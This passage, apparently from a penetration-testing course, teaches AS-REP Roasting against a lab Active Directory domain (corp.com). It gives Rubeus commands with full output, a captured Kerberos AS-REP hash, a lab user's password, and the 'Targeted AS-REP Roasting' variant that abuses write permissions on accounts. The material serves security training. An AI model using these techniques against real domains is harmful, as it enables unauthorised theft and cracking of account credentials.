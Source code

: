 The output shows that _dave_ has the user account option _Do not require Kerberos preauthentication_ enabled, meaning it's vulnerable to AS-REP Roasting. Then we cracked his password.

We can also perform AS-REP Roasting on Windows. We'll use _Rubeus_, which is a toolset for raw Kerberos interactions and abuses. To perform this attack, we'll connect to CLIENT75 via RDP as domain user _jeff_ with the password _HenchmanPutridBonbon11_. Since we're performing this attack as a pre-authenticated domain user, we don't have to provide any other options to Rubeus except **asreproast**. Rubeus will automatically identify vulnerable user accounts. We also add the flag **/nowrap** to prevent new lines being added to the resulting AS-REP hashes.

```shell
PS C:\Users\jeff> cd C:\Tools

PS C:\Tools> .\Rubeus.exe asreproast /nowrap

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.1.2


[*] Action: AS-REP roasting

[*] Target Domain          : corp.com

[*] Searching path 'LDAP://DC1.corp.com/DC=corp,DC=com' for '(&(samAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=4194304))'
[*] SamAccountName         : dave
[*] DistinguishedName      : CN=dave,CN=Users,DC=corp,DC=com
[*] Using domain controller: DC1.corp.com (192.168.50.70)
[*] Building AS-REQ (w/o preauth) for: 'corp.com\dave'
[+] AS-REQ w/o preauth successful!
[*] AS-REP hash:

      $krb5asrep$dave@corp.com:AE43CA9011CC7E7B9E7F7E7279DD7F2E$7D4C59410DE2984EDF35053B7954E6DC9A0D16CB5BE8E9DCACCA88C3C13C4031ABD71DA16F476EB972506B4989E9ABA2899C042E66792F33B119FAB1837D94EB654883C6C3F2DB6D4A8D44A8D9531C2661BDA4DD231FA985D7003E91F804ECF5FFC0743333959470341032B146AB1DC9BD6B5E3F1C41BB02436D7181727D0C6444D250E255B7261370BC8D4D418C242ABAE9A83C8908387A12D91B40B39848222F72C61DED5349D984FFC6D2A06A3A5BC19DDFF8A17EF5A22162BAADE9CA8E48DD2E87BB7A7AE0DBFE225D1E4A778408B4933A254C30460E4190C02588FBADED757AA87A
```

To identify users with the enabled AD user account option _Do not require Kerberos preauthentication_, we can use PowerView's _Get-DomainUser_ function with the option **-PreauthNotRequired** on Windows.

Let's assume that we are conducting an assessment in which we cannot identify any AD users with the account option _Do not require Kerberos preauthentication_ enabled. While enumerating, we notice that we have _GenericWrite_ or _GenericAll_ permissions[5](https://portal.offsec.com/courses/pen-200/books-and-videos/modal/modules/attacking-active-directory-authentication/performing-attacks-on-active-directory-authentication/as-rep-roasting#fn5) on another AD user account. Using these permissions, we could reset their passwords, but this would lock out the user from accessing the account. We could also leverage these permissions to modify the User Account Control value of the user to not require Kerberos preauthentication.[6](https://portal.offsec.com/courses/pen-200/books-and-videos/modal/modules/attacking-active-directory-authentication/performing-attacks-on-active-directory-authentication/as-rep-roasting#fn6) This attack is known as _Targeted AS-REP Roasting_. Notably, we should reset the User Account Control value of the user once we've obtained the hash.
